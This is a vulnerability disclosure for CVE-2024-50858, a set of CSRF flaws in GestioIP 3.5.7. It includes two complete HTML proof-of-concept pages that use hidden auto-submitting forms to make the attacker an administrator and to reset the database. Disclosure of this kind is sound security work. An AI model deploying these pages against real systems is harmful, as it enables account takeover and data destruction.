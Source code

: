 ```yaml
---
title: "CVE-2024-50858. GestioIP Vulnerability: CSRF"
description: Cross-Site Request Forgery
date: 2025-01-13T12:28:27-03:00
author: Maximiliano Belino
lang: en
tags:
  - vulnerability
  - CVE
  - CSRF
---
```

# CVE-2024-50858


- [Information](#information)
- [Example 1 - Leading to Privilege Escalation](#example-1---leading-to-privilege-escalation)
	- [Information](#information)
	- [Proof-of-Concept Exploit](#proof-of-concept-exploit)
		- [Description](#description)
		- [Prerequisite](#prerequisite)
		- [Usage/Exploitation](#usageexploitation)
- [Example 2 - Reset database](#example-2---reset-database)
	- [Information](#information)
	- [Proof-of-Concept Exploit](#proof-of-concept-exploit)
		- [Description](#description)
		- [Usage/Exploitation](#usageexploitation)
- [Payloads](#payloads)


## Information


### Description

The GestioIP application has many endpoints and they are vulnerable to CSRF. This allows an attacker to execute actions through the admin's browser on the application if the admin visits a malicious URL hosted by the attacker. These actions can modify, delete, or exfiltrate data from the application.
Two examples are described below.


**Versions Affected:** 3.5.7 


## Example 1 - Leading to Privilege Escalation

### Information

**Description:** The `ip_mod_user` request is vulnerable to Cross Site Request Forgery (CSRF) leading to privilege escalation. <br> 

### Proof-of-Concept Exploit

#### Description

The `ip_mod_user` feature of GestioIP 3.5.7 is vulnerable to Cross Site Request Forgery (CSRF) leading to privilege escalation. If an administrator goes to a malicious URL while being authenticated to the GestioIP application, the CSRF will execute making the attacker and administrator user in the application. 

#### Prerequisite

The option "Manage - Manage GestioIP - User Management" must be enabled previously.

![](../../../../images/CVE-2024-50858.png)


#### Usage/Exploitation

To exploit this vulnerability, an attacker must host ```payload8a.html``` on an attacker-controlled web server. When an authenticated administrator goes to the attacker's website, the CSRF will execute making the attacker an administrator.

Before accessing the malicious link:

![](../../../../images/CVE-2024-50858-3.png)


After clicking the malicious link:

![](../../../../images/CVE-2024-50858-1.png)


Let's check users again:

![](../../../../images/CVE-2024-50858-2.png)



## Example 2 - Reset database

### Information

**Description:** The `ip_manage_gestioip` request is vulnerable to Cross Site Request Forgery (CSRF) leading to a database reset (deleting data). <br> 

### Proof-of-Concept Exploit

#### Description

The `ip_manage_gestioip` feature of GestioIP 3.5.7 is vulnerable to Cross Site Request Forgery (CSRF) leading to a database reset. If an administrator clicks the malicious URL while being authenticated to the GestioIP application, the CSRF will execute deleting all networks registered in the app for a specific client (default client is named DEFAULT).


### Usage/Exploitation

To exploit this vulnerability, an attacker must host ```payload9.html``` on an attacker-controlled web server. When an authenticated administrator goes to the attacker's website, the CSRF will execute deleting all the networks registered in the app in the specified client.


After clicking the malicious URL:

![](../../../../images/CVE-2024-50858-5.png)

![](../../../../images/CVE-2024-50858-4.png)


## Payloads


`payload8a.html`

```html
<!DOCTYPE html>
<html lang="en">
<head>
<meta charset="UTF-8">
<meta name="viewport" content="width=device-width, initial-scale=1.0">
<title>Welcome to our site</title>
<style>
body {
font-family: Arial, sans-serif;
text-align: center;
}
.container {
margin-top: 50px;
}
iframe {
display: none;
}
</style>
</head>
<body>
<div class="container">
<h1>Thank you for visiting our site!</h1>
<p>We are processing your request, please wait a moment...</p>
<img src="https://placehold.co/150?text=Processing" alt="Processing...">
</div>
<!-- hidden iframe -->

<iframe name="hiddenFrame"></iframe>

<!-- The form that makes the POST to GestioIP Server -->
<form action="[http://localhost/gestioip/res/ip_mod_user.cgi](http://localhost/gestioip/res/ip_mod_user.cgi)" method="POST" target="hiddenFrame">
<input type="hidden" name="name" value="maxi">
<input type="hidden" name="group_id" value="1">
<input type="hidden" name="email" value="maxi@test.com">
<input type="hidden" name="phone" value="123">
<input type="hidden" name="comment" value="">
<input type="hidden" name="client_id" value="1">
<input type="hidden" name="id" value="2">
<input type="hidden" name="B2" value="">
</form>
<script>
history.pushState('', '', '/');
document.forms[0].submit();
</script>
</body>
</html>
```


`payload9.html`

``` html
<html>
    <body>
        <iframe name="hiddenFrame" style="display:none;"></iframe>

        <form action="http://localhost/gestioip/res/ip_manage_gestioip.cgi" method="POST" target="hiddenFrame">
            <input type="hidden" name="reset_database_ipv4" value="yes">
            <input type="hidden" name="reset_database_ipv6" value="yes">
            <input type="hidden" name="manage_type" value="reset_database">
            <input type="hidden" name="client_id" value="1">
            <input type="hidden" name="B1" value="reset database">
        </form>

        <script>
            history.pushState('', '', '/');
            document.forms[0].submit();
        </script>
    </body>
</html>
```
